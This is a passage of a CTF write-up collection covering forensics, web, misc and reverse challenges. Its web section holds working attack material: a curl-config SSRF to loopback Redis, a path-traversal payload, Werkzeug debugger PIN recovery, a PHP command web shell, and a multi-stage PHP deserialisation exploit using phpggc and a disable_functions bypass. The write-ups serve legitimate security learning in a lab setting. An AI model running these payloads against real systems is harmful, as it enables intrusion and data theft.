H1=$(sha256sum "$RIZZLER" | awk '{print $1}') H2=$(sha256sum "$PROFILE" | awk '{print $1}') H3=$(sha256sum "$DITTO" | awk '{print $1}') echo "UMCS{$H1, $H2, $H3}"
Result
The ordered artifact hashes produced the final DFIR flag.
Flag
UMCS{2607a3bbbc8c4482aadb9eadc13a1f40b2030f9d77be3151ed4d24a8d306fe23, f6d3de4e0827046ecd87f33906e63fb632557de53696b58c9754c8a905674aae, 60b53f85e92e79e8f3894b99160bd8e65d6da9b9d4f938107939317a40b48fe5}Tools used: find, sha256sum, awk. What I learned: Hashing a defined artifact set is only meaningful when filenames and ordering are preserved.
Web
WebREDISTRIBUTE
Challenge
The challenge provided a simple curl application and its downloadable files. The upload endpoint executed an uploaded curl configuration, while Redis stored the flag only on the loopback interface.
First look / analysis
I started with the supplied source because the challenge hint referred to the FLAG environment variable. It showed curl -K processing and Redis bound to 127.0.0.1, so an alternate loopback encoding was the useful path to test.
Read the challenge and inspect the supplied application
The challenge page presented the curl application and its downloadable files. I used that starting point to inspect how uploaded configuration files were consumed rather than trying random request parameters.
The source showed that a submitted configuration was passed to curl with -K. Its setup also stored the flag in Redis on 127.0.0.1, making the curl configuration the bridge to the internal service.

The challenge page identifies the curl application and provides the files used for source review. Create the Redis request configuration
I wrote a curl configuration that targets 2130706433:6379, the integer representation of the loopback address. This avoids relying on the literal 127.0.0.1 string while still reaching the same interface.
The configuration uses HTTP/1.0 and HTTP/0.9 handling and sends GET flag as the request body. I uploaded it to the curl endpoint and saved the response for inspection.
text
silent variable = %{FLAG} url = "http://2130706433:6379/" expand-write-out = "{{FLAG}}\n"bash
curl -s -F 'configuration=@flag.cfg;filename=flag.cfg' "$TARGET/curl" | tee response.html
The configuration targets the alternate loopback representation and is sent to the curl upload endpoint. Read the returned value
After the upload completed, I listed the response files and searched the saved response for the flag format. The internal Redis request had returned the flag value.
bash
grep -o 'UMCS{[^}]*}' response.html
Searching the saved response extracts the flag returned through the internal Redis request.
Result
The uploaded curl configuration reached loopback Redis and returned the stored flag.
Flag
UMCS{0530a5e6-20bf-469d-a53b-b48b8c4acaa6}Tools used: Source review, curl, Redis. What I learned: Blocking literal host strings is not an SSRF defense; network reachability must be controlled.
WebGuess The Pin
Challenge
This university-results application exposed a report endpoint and a development debugger. The goal was to use the available file-read issue and debugger information to recover the flag.
First look / analysis
The report filter removed only the literal ../ sequence. Testing the doubled-dot form showed that traversal still worked, and the debugger error page confirmed that Werkzeug debug mode was enabled.
Start from the report endpoint
The challenge page described a website that displays university results. I used the report function first because it was the endpoint intended to load a student file and therefore was most likely to expose path handling.

The challenge page introduces the university-results website and its flag-in-environment-variable hint. Trigger the debugger and inspect the file filter
Requesting the report route without a usable student value produced a Werkzeug traceback. The error page revealed the report handler and showed that it applied replace('../', '') before opening a file.
I then used ....//app.py. After the weak replacement, that leaves ../app.py, so it bypasses the intended traversal filter and reads the application source.
text
/report?student=....//app.py
The traceback exposes the replace('../', '') filter used before the application opens the requested report. 
The retrieved source confirms the report route and the exposed debug configuration. Collect the debugger inputs
With traversal working, I read the values required by Werkzeug's debugger PIN algorithm, including the MAC address, boot ID, package data, and application details. I reproduced the SHA-1 calculation from the debugger implementation rather than guessing the PIN.

The reconstructed calculation produces the debugger PIN used for the console. Unlock the console and read the flag
I entered the calculated PIN at /console and used the interactive console to locate and read the flag. The console output returned the final value.
text
113-197-073
The unlocked console reads the flag and displays the returned value.
Result
The calculated debugger PIN unlocked the console, which exposed the flag.
Flag
UMCS{DONT_DEB3G_IN_PR00D}Tools used: Browser, source review, Python. What I learned: Development debuggers must never be exposed in production, especially beside file-read flaws.
WebZip-a-Dip-Doo-Dah
Challenge
The application accepted ZIP uploads and extracted their contents. Its hint, abc != ABC, pointed to inconsistent handling of filename-extension case.
First look / analysis
I treated the hint as a cue to test the same PHP extension in multiple cases. The source behaviour accepted uppercase .PHP even though normal lowercase upload attempts were rejected.
Use the case-sensitivity hint
The challenge page states that uploaded archives are inspected before extraction. The abc != ABC hint made extension-case testing more useful than trying to bypass the upload with a disguised filename.
I tested payload.php, payload.pHp, and payload.PHP. The uppercase form passed the flawed check, so I placed shell.PHP inside a ZIP archive.

The challenge page supplies the ZIP-upload context and the case-sensitive hint. Upload and trigger the shell
The archive contained a small PHP command shell. After upload, the response exposed the random extraction directory; I used that directory to invoke shell.PHP.
The first request ran id to verify that the uploaded PHP executed as the web server user. I then requested cat /flag.txt through the same shell.
php
<?php system($_GET['c'] ?? 'id'); ?>text
/uploads/<id>/shell.PHP?c=cat+/flag.txt
The upload response gives the extraction directory; invoking shell.PHP confirms execution and returns the flag.
Result
Case-sensitive filtering allowed an executable uppercase-PHP upload and command execution.
Flag
UMCS{4d5c2f16-3a14-4238-ac02-b382aa7a4329}Tools used: curl, zip, PHP. What I learned: Extension checks must be case-insensitive and uploads must not execute from web-accessible paths.
WebFUK U PHP
Challenge
This upload challenge executed .php files but enforced a WAF of fewer than six unique characters. The objective was to construct a valid payload within that character budget and read the flag.
First look / analysis
A format-string route was considered first, but it was a dead end because the relevant call received only file_size. The workable route was the write-up's five-character PHP obfuscation using 9.^().
Identify the upload constraint
The challenge page and downloadable ZIP established that uploaded PHP is executed, but the WAF restricts the number of distinct characters. That made conventional PHP syntax unsuitable and shifted the work toward generating it at runtime.

The challenge page provides the PHP upload context and downloadable files for inspecting the restriction. Build a five-character payload
I first explored a format-string idea, then discarded it after confirming that only file_size was supplied to the relevant format operation. I instead used 9.^() to construct the needed PHP fragments through XOR and concatenation, with FFI as described in the solve.
That generated payload satisfied the unique-character check while still creating the database query path needed to read the flag.
sql
select load_file(0x2f666c6167)Trigger the uploaded payload
The generated PHP connected to the local challenge database and called LOAD_FILE with the hexadecimal representation of /flag. Its output showed the flag value, confirming that the constrained-character payload executed successfully.

The uploaded payload runs and prints the flag recovered through the database LOAD_FILE call.
Result
The constrained-character payload read the flag from disk through the database.
Flag
UMCS{L3ARNING_P2H2P_INT34341RNALS}Tools used: Python, PHP, MariaDB. What I learned: Character-count WAFs do not prevent code generation and should not be treated as sandboxing.
WebNexusCRM
Challenge
NexusCRM is a PHP CRM application supplied as a downloadable archive. Its remember-me handler deserialises the nx_remember cookie, so the goal was to turn that unsafe object deserialisation into a controlled file write, place a second-stage runner, and collect the flag from its output file.
First look / analysis
I began with the remember-token handler rather than the visible CRM features because it calls unserialize directly on a cookie value. The installed Guzzle library provided the FileCookieJar file-write gadget needed to write a PHP file in uploads/, making a staged payload more reliable than trying to execute a large bypass in the cookie itself.
Trace the remember-me cookie to unsafe deserialisation
The application's _read_remember_token() method reads nx_remember with get_cookie(..., true) and returns unserialize($raw). That is the object-injection primitive: a cookie supplied by the client can cause PHP to instantiate attacker-controlled objects.
I used the supplied CRM archive to confirm this flow before choosing a gadget. The source identifies Guzzle's FileCookieJar as the usable chain because its normal object behaviour can be directed to write a chosen file.
php
private function _read_remember_token() { $raw = get_cookie('nx_remember', true); if (!$raw) return null; return unserialize($raw); }
The challenge provides the CRM archive used to trace the remember-token deserialisation path. Generate the Guzzle file-write payload
I used phpggc locally with the Guzzle/FW1 chain to target uploads/stage1.php. The target path is the web-accessible uploads directory inside the challenge container.
The first-stage file is intentionally small. On a POST containing d, it base64-decodes d and writes it as runner.php beside itself; without d, it prints READY. This confirms the first write before the much larger runner is sent.
bash
docker exec nexnew-ctf php /tmp/phpggc/phpggc -f -u -A Guzzle/FW1 \ /var/www/html/uploads/stage1.php /tmp/exploit_stage1.phpphp
<?php if (isset($_POST['d'])) { file_put_contents(__DIR__ . DIRECTORY_SEPARATOR . 'runner.php', base64_decode($_POST['d'])); echo 'WROTE'; } else { echo 'READY'; } ?>Trigger the deserialisation and validate stage one
I placed the phpggc serialised object in the nx_remember cookie and sent it to the application. That causes the FileCookieJar gadget to create stage1.php on the server.
I then requested uploads/stage1.php directly. Its READY response confirmed the cookie path, gadget chain, destination directory, and PHP execution before proceeding to the bypass stage.
bash
curl -s -o /dev/null \ -H "Cookie: nx_remember=<PHPGGC_PAYLOAD>" \ <TARGET>/ curl <TARGET>/uploads/stage1.php # [{"Expires":1,"Discard":false,"Value":"READY"}]Upload the patched runner
The second-stage runner was a patched mm0r1 php-concat-bypass for PHP 8.1. The source notes that pack() was also disabled on this target, so a patched variant was needed.
Its command writes the readflag output to uploads/f.txt. I Base64-encoded runner_writeflag.php and sent it as d to the verified stage1.php endpoint. The WROTE response confirmed that runner.php had been created.
bash
RUNNER_B64=$(base64 -w0 runner_writeflag.php) curl -X POST --data-urlencode "d=${RUNNER_B64}" \ <TARGET>/uploads/stage1.php # [{"Expires":1,"Discard":false,"Value":"WROTE"}]php
Download code and command excerptsnew Pwn('/bin/sh -c "/readflag > /var/www/html/uploads/f.txt"');Retry the unstable runner and collect f.txt
The source records that the bypass was unreliable on the remote instance. I therefore triggered runner.php repeatedly, waited briefly between requests, and fetched f.txt after each attempt instead of assuming the first execution completed.
Once f.txt returned HTTP 200 with text/plain content, its body contained the final flag. The repeated loop is part of the documented solve rather than an unrelated brute-force step.
bash
for i in $(seq 1 25); do curl -s <TARGET>/uploads/runner.php > /dev/null sleep 0.3 curl -i <TARGET>/uploads/f.txt done # HTTP/1.1 200 OK # Content-Type: text/plain
Result
The Guzzle FileCookieJar chain wrote stage1.php through nx_remember deserialisation. Stage one wrote the patched runner, and repeated runner execution produced uploads/f.txt containing the flag.
Flag
UMCS{SOMEONE_IS_ON_@_RAMPAGGEEEEE}Tools used: PHP source review, phpggc, Guzzle FileCookieJar gadget chain, curl, Base64. What I learned: Unsafe deserialisation becomes much more serious when installed gadget chains provide filesystem effects. Staging a small verifier before a complex execution path separates file-write failures from runner reliability issues.
Misc
Misc · 50Noisy_Penguins
Challenge
The challenge supplied Noisy_Penguins.mkv, a Matroska video file. The video was only about nine seconds long but approximately 46 MB, indicating that the container held more than its visible video content.
First look / analysis
I began with file and ffprobe to establish the container type and stream layout. The unexpectedly large size made embedded attachments and subtitle streams the most justified places to inspect before attempting media steganography blindly.
Identify the oversized Matroska container
I used file and ffprobe on Noisy_Penguins.mkv. They identified it as Matroska data and confirmed that a short video wrapper was being used, which did not account for its roughly 46 MB size.
That mismatch was the reason to inspect the container rather than only watch the clip. The challenge page's Pingu wording also suggested that the apparent video might be a wrapper around another artifact.
bash
file Noisy_Penguins.mkv ffprobe Noisy_Penguins.mkv
The challenge presents the Pingu-themed Matroska download and its noot-noot clue. Extract the attached video
I asked ffmpeg to dump attachment stream 0 from the Matroska container. This extracted PINGU.mp4, the real target embedded inside the outer file.
bash
ffmpeg -dump_attachment:t:0 PINGU.mp4 -i Noisy_Penguins.mkv -f null -Read the subtitle fragments and discard decoys
Inspecting PINGU.mp4 streams revealed a hidden mov_text subtitle track. I extracted the subtitles and found five Base64 strings; the valid first and last fragments read UMCS{as and u1n_n00t}, while FAKE_FlAg and NeverGonnaGiveYouUp were explicit decoys.
The third fragment was corrupted, so I did not force its Base64 output into the flag. The sanitised screenshot records the subtitle chunks without the original local terminal prompt or path.

The extracted subtitle track contains five Base64 chunks; the first, third, and fourth are the relevant flag pieces. Repair the noisy third fragment
The title refers to the audio track. The source's spectrogram analysis of its tone bursts showed that the corrupted third value MxMV9wM25H should be c2MxMV9wM25H.
Decoding that repaired value gives sc11_p3nG. I joined it between the valid opening and closing fragments and ignored the two deliberate decoys.
text
UMCS{as + sc11_p3nG + u1n_n00t}
Result
The Matroska attachment exposed a video with hidden subtitle chunks. Repairing the audio-signalled corrupted fragment and combining the non-decoy pieces produced the flag.
Flag
UMCS{assc11_p3nGu1n_n00t}Tools used: file, ffprobe, ffmpeg, subtitle-stream inspection, Base64 decoding, spectrogram analysis. What I learned: Container files can hide useful attachments and text tracks. When an extracted sequence includes obvious decoys, validating every fragment against the challenge's separate clues prevents assembling a convincing but false answer.
Misc · 340NoEntry
Challenge
NoEntry supplied a virtual-disk artifact and stated that the flag was on the administrator's Desktop. With no credentials available, the solve uses offline, read-only inspection of the VMDK instead of attempting a login.
First look / analysis
The challenge wording already gives a precise destination, so mounting the disk read-only was the least invasive and most reliable approach. guestfish provides an interactive view of the guest filesystem without booting the VM or modifying its evidence.
Confirm the target and choose offline access
The challenge page points to the administrator's Desktop. I kept the VMDK offline and used guestfish in read-only mode because no account credentials were provided and no system execution was needed.

The challenge establishes the target location and provides the disk artifact. Mount the VMDK read-only
I opened the disk with guestfish's read-only option and inspected the mounted filesystem. The published capture begins after the local shell prompt and command, retaining only the guest-filesystem session.
bash
guestfish --ro -a "NoEntry-disk1.vmdk" -i
guestfish opens the Windows guest filesystem in read-only mode without booting the virtual machine. Traverse to the administrator Desktop and read the flag
I listed the root, Users, Administrator, and Desktop directories in order. The Desktop listing included flag.txt, so I read that file directly from the mounted disk.
text
ls / ls /Users ls /Users/Administrator ls /Users/Administrator/Desktop cat /Users/Administrator/Desktop/flag.txt
The Desktop directory contains flag.txt; reading it returns the complete flag.
Result
Read-only examination of the VMDK reached the Administrator Desktop and revealed flag.txt.
Flag
UMCS{08d72774f6413835b85bd4d3d34d3ddf_y3s_3n7ry}Tools used: guestfish. What I learned: When credentials are unavailable, virtual-disk forensics can recover user files without booting or altering the guest. Read-only mounting also preserves the evidence while answering a targeted file-location question.
Ruby
RubyCloud AI Whisperer
Challenge
The source records a cloud-debug log whose final value is Base64-encoded. The challenge is intentionally short: decode that value to recover the flag.
First look / analysis
Rather than treating the surrounding cloud log as a separate exploitation problem, the source explicitly identifies the final Base64 value as the material to decode. The published image retains only the safe decoded result because the original log contained a real token and local terminal identifiers.
Identify the encoded value in the log
I inspected the supplied log and isolated the Base64-looking value identified by the source. I did not publish the surrounding authentication data from the original capture because it contains a real credential unrelated to reproducing the decode.
The PDF records the decode and its final result, but its text extraction does not preserve a reliable copyable form of the original Base64 value. I therefore keep the original value out of the code block rather than reconstructing it.
Decode the Base64 text
I decoded the extracted value as Base64. Its plaintext is the flag, matching the result shown in the sanitised final-output capture.

The readable log context and final flag are retained; only the token and local terminal identifiers are masked.
Result
Decoding the supplied Base64 value returned the flag directly.
Flag
UMCS{cl0ud_4I_wh1sp3r3r}Tools used: Base64 decoder. What I learned: Logs often contain encoded rather than encrypted values, so recognising an encoding can avoid unnecessary reverse engineering. Sensitive credentials that appear alongside a challenge result should not be copied into a public write-up.
Reverse
Reverse · 50Varsity Lake Sonata
Challenge
Varsity Lake Sonata is a UPX-packed ELF binary. It accepts a 36-byte melody and checks it against a chained-XOR transform; the aim is to reverse that transform rather than guess input.
First look / analysis
Running strings exposed UPX markers, so unpacking was the necessary first step. In Ghidra, the success string led directly to the validation routine and showed that each character becomes state for the next iteration.
Inspect the challenge binary
The challenge page supplied the Varsity Lake executable. I treated it as a static reverse-engineering problem and began by checking its strings for packer indicators.

The challenge provides the packed ELF used for the static analysis. Unpack UPX and find the comparison logic
UPX text in the binary justified unpacking it before decompilation. After opening unpacked.bin in Ghidra, I searched for the success message, then cross-referenced it to the flag check.
The check requires exactly 0x24 bytes. At each position it compares (input[i] ^ 0x4d) ^ i ^ state with target[i], then replaces state with input[i].
bash
upx -d Varsity_Lake_Sonata.bin -o unpacked.binc
